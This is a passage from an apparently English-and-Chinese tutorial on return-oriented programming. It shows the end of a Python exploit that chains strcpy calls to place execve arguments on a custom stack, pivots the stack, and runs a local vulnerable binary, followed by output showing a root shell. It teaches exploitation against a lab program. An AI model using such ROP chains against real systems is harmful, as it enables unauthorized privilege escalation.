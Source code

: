 ``` python
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct2)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct1)
#Below stack frame is for strcpy (to copy execve argv[1] (0x0) to custom stack @ loc 0x804ac6c)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
#Stack Pivot
buf += conv(pr_addr)
buf += conv(cust_base_esp)
buf += conv(lr_addr)
print "Calling vulnerable program"
call(["./vuln", buf])
```
Executing above exploit code gives us root shell (as shown below):  
执行上面的漏洞利用代码就可以得到下面的root shell  

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����Ѓ΅d�ˁЃ΅e�U�Ѓ΅f�0�Ѓ΅g�C�Ѓ΅h�܃Ѓ΅i�U�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`�Ѓ΅p���Ѓ΅q�Ѓ΅r�0�Ѓ΅s�C�Ѓ΅t���Ѓ΅u�Ѓ΅v�0�Ѓ΅w�C�Ѓ΅x�`�Ѓ΅y�`�Ѓ΅z�`�Ѓ΅{�`�Ѓ΅`�T�Ѓ΅a�W�Ѓ΅b�V�Ѓ΅c�^�Ѓ΅d�T�Ѓ΅e�b�Ѓ΅f���Ѓ΅h���Ѓ΅i�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`���`�i�
Len:1008
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考

[PAYLOAD ALREADY INSIDE: DATA REUSE FOR ROP EXPLOITS](http://media.blackhat.com/bh-us-10/whitepapers/Le/BlackHat-USA-2010-Le-Paper-Payload-already-inside-data-reuse-for-ROP-exploits-wp.pdf)

